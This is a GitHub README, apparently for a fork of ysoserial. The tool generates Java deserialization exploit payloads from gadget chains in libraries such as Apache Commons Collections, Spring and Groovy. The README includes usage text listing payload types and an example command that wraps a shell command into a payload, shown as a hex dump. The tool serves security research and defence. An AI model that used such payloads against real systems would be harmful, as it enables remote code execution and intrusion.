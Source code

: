 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[programe]' '[option]' '[command to execute]'
	Available payload types:
		CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Jdk7u21 []
		Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar target/ysoserial-0.0.4-all.jar CommonsCollections1 'bin/sh' '-c' 'echo "hatoan security" > /tmp/xxx.x' | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
0000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
0000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
0000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469  luest..Ljava/uti
0000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011  l/Map;L..typet..
...
0000460: 7100 7e00 1675 7100 7e00 1b00 0000 0175  q.~..uq.~......u
0000470: 7200 135b 4c6a 6176 612e 6c61 6e67 2e53  r..[Ljava.lang.S
0000480: 7472 696e 673b add2 56e7 e91d 7b47 0200  tring;..V...{G..
0000490: 0078 7000 0000 0374 0006 6269 6e2f 7368  .xp....t..bin/sh
00004a0: 7400 022d 6374 0023 6563 686f 2022 6861  t..-ct.#echo "ha
00004b0: 746f 616e 2073 6563 7572 6974 7922 203e  toan security" >
00004c0: 202f 746d 702f 7878 782e 7874 0004 6578   /tmp/xxx.xt..ex
...
0000570: 3f40 0000 0000 000c 7708 0000 0010 0000  ?@......w.......
0000580: 0000 7878 7672 0012 6a61 7661 2e6c 616e  ..xxvr..java.lan
0000590: 672e 4f76 6572 7269 6465 0000 0000 0000  g.Override......
00005a0: 0000 0000 0078 7071 007e 003e            .....xpq.~.>
```

## Installation

1. Download the latest jar from the "releases" section.


### Building
1.Requires Java 1.7+ and Maven 3.x+
2.mvn clean package -DskipTests

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

